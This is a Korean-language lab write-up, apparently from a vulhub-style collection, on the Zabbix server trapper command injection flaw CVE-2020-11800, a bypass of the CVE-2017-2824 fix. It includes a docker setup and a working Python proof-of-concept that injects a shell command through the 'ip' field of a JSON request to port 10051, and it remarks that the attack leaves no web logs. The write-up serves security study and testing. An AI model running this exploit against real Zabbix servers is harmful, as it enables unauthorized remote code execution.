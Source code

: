 # Zabbix 서버 트랩퍼 명령 주입 취약점(CVE-2020-11800)

**Contributors**

-   [박철준(@cheoljun99)]

## 요약
Zabbix는 분산 시스템 모니터링 및 네트워크 모니터링 기능을 제공하는 WEB 인터페이스 기반의 엔터프라이즈급 오픈 소스 솔루션입니다.

CVE-2017-2824 Zabbix 버전 2.4.x의 트랩퍼 명령 기능에는 원격 코드 실행 취약점이 있습니다.특정 데이터 패킷이 명령 주입을 유발한 다음 원격으로 코드를 실행할 수 있습니다. 공격자는 취약점을 트리거하기 위해 Zabbix 프록시에서 요청을 시작할 수 있습니다.
CVE-2020-11800은 CVE-2017-2824에 대한 패치 우회입니다. 서버 측 트랩퍼 명령 기능에 코드 실행 취약점이 있으며, 복구 패치가 불완전하여 IPv6를 사용하여 임의 명령을 우회하고 주입할 수 있습니다.

참고 링크：

- https://xz.aliyun.com/t/8991

## 환경설정

다음 명령을 실행하여 웹 측, 서버 측, 1 에이전트 및 Mysql 데이터베이스를 포함한 전체 Zabbix 환경을 시작하십시오.

```
docker compose up -d
```

명령 실행 후 `docker compose ps`를 실행하여 모든 컨테이너가 성공적으로 시작되었는지 확인하고, 그렇지 않은 경우 `docker compose up -d`를 다시 실행하시오.

해당 취약점을 악용하기 위해서는 서버에서 자동 등록 기능을 활성화해야 하며, 활성화 방법은 아래에 제시합니다.

![](0.png)

로그인하려면 ID: admin, PW: zabbix 를 입력하세요.

![](1.png)
Configuration 탭에서 하위 탭인 Actions를 클릭하고 이벤트 소스를 Auto registration으로 조정한 다음 create를 하여 Add host 오퍼레이션을 만듭니다.

## CVE-2017-2824에서 취약점 패치한 후 취약점 재발(우회)

CVE-2017-2824와 CVE-2020-11800은 모두 동일한 취약점이므로 전자는 ipv4 splicing 명령을 사용하여 주입하고 후자는 ipv6 splicing 명령을 사용하여 주입하는 원리는 동일합니다.：

```python
import sys
import socket
import json
import sys
def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data
target = sys.argv[1]
#print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
# CVE-2020-11800은 아래를 사용하십시오
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)

```

다음 결과가 표시되면 명령이 성공적으로 실행된 것입니다.

![](2.png)
poc 파일을 연속하여 실행하면 해당 랜덤한 확률로 해당 빨간 네모칸 과정이 실행됩니다.

![](3.png)
이후 서버 bash를 통해 tmp 폴더를 확인하면 success2 파일이 생성됨을 알 수 있습니다.

![](4.png)
성공적으로 실행된 명령은 콘솔에도 기록됩니다.

![](5.png)
해당 취약점은 소켓을 통해 생성되며 http 프로토콜을 사용하지 않으므로 웹 로그에 기록이 남지 않습니다.
